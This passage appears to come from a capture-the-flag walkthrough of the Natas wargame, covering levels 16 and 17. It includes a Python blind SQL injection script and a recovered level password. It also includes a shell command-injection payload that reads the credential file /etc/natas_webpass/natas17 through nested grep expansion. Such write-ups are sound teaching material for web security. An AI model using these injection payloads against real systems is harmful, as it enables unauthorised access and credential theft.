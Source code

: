 ```python
    while True:
        try:
            index, char = get_next_char(index, possible_chars)
        except IndexError:
            # None of the chars matched, assume that the password has been
            # guessed.
            return password
        password_guess = "".join([password, char, "%"])
        text = get_page_text({
            "username":
                'natas16" AND password LIKE BINARY "{0}'.format(password_guess),
            "debug": "true"
        })
        if does_user_exist(text):
            password = "".join([password, char])
            logging.info("password: %s", password)
            index = 0


def main():
    print get_password()


if __name__ == "__main__":
    main()
```

Running the script prints out the password.

`WaIHEacj63wnNIBROHeqi3p9t0m5nhmh`

## 17

This level is similar to the previous one. The web app is the same as the one
from levels [10](#10) and [11](#11), but it returns an error if any of the
characters `;`, `|`, `&`, `` ` ``, `\`, `'`, and `"`. are used. We can, however,
make use of shell varible expansions:

```sh
grep -i "$(grep -E ^a.* /etc/natas_webpass/natas17)aprils" dictionary.txt
```

If the password doesn't start with the letter 'a', the grep inside the variable
expansion returns nothing, and the outer grep searches for 'aprils', which it
finds in dictionary.txt. If however, the password does start with 'a', the grep
will return the password, and the outer grep will search for `axxxaprils` (where
`xxx` represents the rest of the characters in the password) , which it won't
find, so will return nothing. We can repeat this process for all letters as
before.

The code to do this is very similar to the code from level [16](#16):

```python
# -*- coding: utf-8 -*-

import logging
import string
import sys

import requests
from bs4 import BeautifulSoup


logging.basicConfig(level=logging.DEBUG, stream=sys.stderr)
logger = logging.getLogger(__name__)
# Silence noisy urllib3 debug logs
```

[^1]: Hacking into systems without explicit permission is illegal.